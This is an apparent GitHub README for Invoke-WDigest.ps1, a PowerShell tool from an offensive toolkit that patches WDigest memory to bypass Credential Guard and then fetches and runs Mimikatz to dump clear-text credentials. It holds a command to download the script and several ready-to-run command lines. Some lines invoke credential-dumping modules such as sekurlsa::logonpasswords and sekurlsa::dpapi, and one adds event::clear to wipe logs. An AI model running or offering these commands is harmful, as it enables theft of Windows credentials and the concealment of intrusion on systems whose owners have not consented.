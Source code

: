 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|Credits: @wh0nsq, @BenjaminDelpy|

<br />

|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials|<b><i>false</i></b>|
|RunAs|Switch that promps user for credential input and store it in memory|<b><i>false</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to run|<b><i>sekurlsa::wdigest exit</i></b>|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

**run cmdlet:**
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz sekurlsa::wdigest exit
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Exec M[i]mika[t]z 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump::modules
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi event::clear exit'


[FAST DEMONSTRATION]

## Ativate WDigest caching + dump created credential
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
   - WDigest will store credential input by user in clear-text in memory
   - mimikatz will auto-execute 'sekurlsa::wdigest exit' to dump credentials

REMARK
   RunAs parameter switch exists for demonstration effects, and can not be
   used remotely because it requires target user interaction (prompt cred)
   and resource UserName password knowledge ..
```

<br />

![poc](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.png)

<br />

![poc](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest2.png)
